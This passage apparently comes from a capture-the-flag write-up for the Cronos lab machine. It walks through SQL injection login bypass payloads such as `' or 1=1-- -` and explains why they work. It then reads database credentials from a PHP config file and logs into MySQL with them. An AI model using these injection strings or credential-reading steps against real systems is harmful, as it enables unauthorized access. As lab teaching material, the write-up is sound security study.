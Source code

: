 
The username and password are taken directly from the form and put into:

    
    
    SELECT id FROM users WHERE username = '$myusername' and password = '$mypassword'
    

So when I entered `' or '1'='1` as the username and admin as the password, it
results in:

    
    
    SELECT id FROM users WHERE username = '' or '1'='1' and password = 'admin'
    

Since `AND` has precedence over `OR`, this results in:

    
    
    SELECT id FROM users WHERE username = '' or ('1'='1' and password = 'admin')
    

This fails.

But later when I enter `' or 1=1-- -`, it becomes:

    
    
    SELECT id FROM users WHERE username = '' or 1=1-- -' and password = '$mypassword'
    

That will return all the users from the database.

Next the PHP checks that exactly one row was returned. If I log into the
database from Cronos, I can see that the DB only has one user in it. First get
the creds in `/var/www/admin/config.php`:

    
    
    <?php
       define('DB_SERVER', 'localhost');
       define('DB_USERNAME', 'admin');
       define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
       define('DB_DATABASE', 'admin');
       $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
    ?>
    

Now I can connect and dump the users:

    
    
    root@cronos:/var/www/admin# mysql -u admin -pkEjdbRigfBHUREiNSDs admin 
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 47
    Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)
    
    Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.
    
    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.
    